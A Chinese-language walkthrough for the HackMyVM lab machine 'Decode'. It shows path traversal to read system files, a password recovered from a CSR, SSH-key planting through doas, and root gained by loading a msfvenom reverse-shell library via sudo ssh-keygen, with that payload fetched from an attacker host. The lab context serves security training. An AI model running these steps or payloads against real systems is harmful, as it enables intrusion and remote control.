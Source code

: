 # Decode

2025.02.06 https://hackmyvm.eu/machines/machine.php?vm=Decode

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 web 80 看看，http://192.168.5.40/robots.txt 显示了一些目录:

```
User-agent: decode
Disallow: /encode/

User-agent: *
Allow: /
Allow: /decode
Allow: ../
Allow: /index
Allow: .shtml
Allow: /lfi../
Allow: /etc/
Allow: passwd
Allow: /usr/
Allow: share
Allow: /var/www/html/
Allow: /cgi-bin/
Allow: decode.sh
```

使用 bp 抓包，修改 user-agent 为 decode，尝试访问 /encode/ 但是显示 404。访问http://192.168.5.40/decode 会在结尾自动添加/，同时根据 robots.txt 中的提示/lfi../，这里可能存在目录穿越。

http://192.168.5.40/decode/ 以此目录为基础 gobuster 再次进行扫描，发现了更多新的可访问的内容，发现能读取到一些系统内的文件。

http://192.168.5.40/decode/passwd 发现了登陆用户:

```
root:x:0:0:root:/root:/bin/bash
...
steve:$y$j9T$gbohHcbFkUEmW0d3ZeUx40$Xa/DJJdFujIezo5lg9PDmswZH32cG6kAWP.crcqrqo/:1001:1001::/usr/share:/bin/bash
decoder:x:1002:1002::/home/decoder:/usr/sbin/nologin
ajneya:x:1003:1003::/home/ajneya:/bin/bash
```

但是这个 hash 没有解密出来，继续看上面的 robots.txt 中的信息，经过测试，发现 curl http://192.168.5.40/decode../etc/passwd 也能访问到 passwd 文件。

如果以 http://192.168.5.40/decode../ 为基础，后面添加系统中的文件，就能访问其内容。

在组合 robots.txt 中的其他目录，curl http://192.168.5.40/cgi-bin/decode.sh 发现可以看到 ls 的执行效果，但是没什么用。

steve 的 home 目录在/usr/share ，gobuster 再次扫描，看看里面能找到什么文件。经过扫描发现 curl http://192.168.5.40/decode../usr/share/.bash_history 其显示内容为 rm -rf /usr/share/ssl-cert/decode.csr 查看这个文件 curl http://192.168.5.40/decode../usr/share/ssl-cert/decode.csr 得到其内容：

```
-----BEGIN CERTIFICATE REQUEST-----
MIIDAzCCAesCAQAwSDERMA8GA1UEAwwISGFja015Vk0xDzANBgNVBAgMBmRlY29k
ZTEPMA0GA1UEBwwGZGVjb2RlMREwDwYDVQQKDAhIYWNrTXlWTTCCASIwDQYJKoZI
hvcNAQEBBQADggEPADCCAQoCggEBANnSG9vEEGPRgDA/cT6NT3sMKsi6dLhKwRgy
PcRpRt1TO63kpY2PxNSgOPpydjUm34nwghy5lPL4+GBXoNOHMhQI1hUVqZXmuFB8
+DCETqXNfV5JnTRMG5tr2m4vV1HNTH+/GUueBm5R/ERu69n2xMADs4nEL3iRjOO/
19sYZIj+ZDaN3MouyqrprWy9PBwKf2VTy4prJh6nTEVSV8oRRtd+nOxfEG6890+P
lF6s0XDpv8V001aiJWSceYPIikvKXaVy45h3JoYzWsQzt3b1R22DuPjAOQ3AvZbp
V68lkF+S1rIa7gsb8oeZI16yPz+GEPVvXGzLyIYhDixdxOCFZaECAwEAAaB2MBkG
CSqGSIb3DQEJBzEMDAppNG1EM2MwZDNyMFkGCSqGSIb3DQEJDjFMMEowDgYDVR0P
AQH/BAQDAgWgMCAGA1UdJQEB/wQWMBQGCCsGAQUFBwMBBggrBgEFBQcDAjAWBgNV
HREEDzANggtoYWNrbXl2bS5ldTANBgkqhkiG9w0BAQsFAAOCAQEAO73W3pTMqSm2
A37vepuR4F3ycnFKdFyRhk1rtO1LE9OWOI3bQ7kW0wIFuRaqFONsG/mvGFgEfRR8
xpgSYmnzWJQ0nTOtGi6d7F0dFFmYIXe75+6QYM2ZwAYf3lW+HRKLXhh5FMeoXJHo
eU64o9tFdhWxcB1OLAGEG9MI6AhN62ZTrKwMq13/PIteoPAEnlVgBidxQxUVHQfO
EwMP38jzm+HESbZsNVjX4RQjtvBUAKQUTBRYuS02QqqC5ajHz0RWaGgrGIyKrip5
yRjgsjxtmadaetxSasIg5tsjSFGyyVVPsdY4umAUUm+dSobruxcyXuxXIgn27Z7M
h97It2ELpw==
-----END CERTIFICATE REQUEST-----
```

使用 openssl req -in mycsr.csr -noout -text ，得到解码后的内容为，得到了 steve 用户的密码：

```
Attributes:
    challengePassword        :i4mD3c0d3r
```

登陆 steve/i4mD3c0d3r ssh， sudo -l 发现: `(decoder) NOPASSWD: /usr/bin/openssl enc *, /usr/bin/tee` 但是没什么作用。

看看 suid，发现/usr/bin/doas，查看其配置文件：

```
steve@decode:/home/ajneya$ cat /etc/doas.conf
permit nopass steve as ajneya cmd cp
```

允许 steve 以 ajneya 身份执行 cp 命令，可以生成公钥，将其放到 /home/ajneya/.ssh/authorized_keys 中:

```
cd ~
ssh-keygen
cp id_rsa.pub id_rsa.b
chmod +r id_rsa.b
mkdir -p /tmp/b/.ssh
cp id_rsa.b /tmp/b/.ssh/authorized_keys
doas -u ajneya cp -r /tmp/b/.ssh /home/ajneya/
ssh ajneya@192.168.5.40
```

登陆后，得到了 user flag:

```
ajneya@decode:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

sudo -l 发现：

```
(root) NOPASSWD: /usr/bin/ssh-keygen * /opt/*
```

GTFOBin 中提示:

```
sudo ssh-keygen -D ./lib.so
```

使用 msf 制作 so 文件，进行反弹：

```
msfvenom LHOST=192.168.5.3 LPORT=8888 -p linux/x86/meterpreter/reverse_tcp -f elf-so > lib.so
```

将 so 文件下载到目标机器的/tmp 文件夹中:

```
cd /tmp
wget http://192.168.5.3/z/lib.so
chmod 777 lib.so
sudo -u root /usr/bin/ssh-keygen -D /opt/../tmp/lib.so
```

执行后，得到反弹的 meterpreter，最终得到 root flag:

```
cat root.txt
63a9f0ea7bb98050796b649e85481845
```
